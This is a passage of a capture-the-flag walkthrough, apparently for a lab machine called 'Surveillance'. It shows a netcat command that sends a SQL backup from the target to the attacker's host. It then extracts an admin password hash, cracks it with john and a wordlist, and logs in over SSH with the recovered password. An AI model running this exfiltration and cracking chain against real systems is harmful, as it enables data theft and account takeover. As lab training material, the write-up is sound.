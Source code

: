 ## Download the SQL Backup
Listen on Localmachine
`$ nc -l -p 9002  > surveillance--2023-10-17-202801--v4.4.14.sql.zip`

Run on the Targetmachine
`nc 10.10.14.49 9002 < surveillance--2023-10-17-202801--v4.4.14.sql.zip`

Then unzip the file
```
$ unzip surveillance--2023-10-17-202801--v4.4.14.sql.zip 
Archive:  surveillance--2023-10-17-202801--v4.4.14.sql.zip
  inflating: surveillance--2023-10-17-202801--v4.4.14.sql  
  
$ cat surveillance--2023-10-17-202801--v4.4.14.sql |grep users
```
```
INSERT INTO `users` VALUES (1,NULL,1,0,0,0,1,'admin','Matthew B','Matthew','B','admin@surveillance.htb','39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec','2023-10-17 20:22:34',NULL,NULL,NULL,'2023-10-11 18:58:57',NULL,1,NULL,NULL,NULL,0,'2023-10-17 20:27:46','2023-10-11 17:57:16','2023-10-17 20:27:46');
/*!40000 ALTER TABLE `users` ENABLE KEYS */;
```

### Password Cracking
```
$ echo '39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec' > MatthewHash.txt
$ john MatthewHash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-sha256
```
```
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=2
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
starcraft122490  (?)     
1g 0:00:00:00 DONE (2024-03-15 04:34) 1.315g/s 4699Kp/s 4699Kc/s 4699KC/s stefon23..srflo1
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed. 
```

## SSH Connect
`$ ssh matthew@10.10.11.245`
```
The authenticity of host '10.10.11.245 (10.10.11.245)' can't be established.
ED25519 key fingerprint is SHA256:Q8HdGZ3q/X62r8EukPF0ARSaCd+8gEhEJ10xotOsBBE.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:15: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.245' (ED25519) to the list of known hosts.
matthew@10.10.11.245's password: starcraft122490
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-89-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Mar 15 08:35:28 AM UTC 2024
```
```
matthew@surveillance:~$ cat user.txt 
32f086d0cfa39c85be45975c5a78f3b4

matthew@surveillance:/usr/share/zoneminder/www/api/app/Config$ sudo -l
[sudo] password for matthew: starcraft122490
Sorry, user matthew may not run sudo on surveillance.
```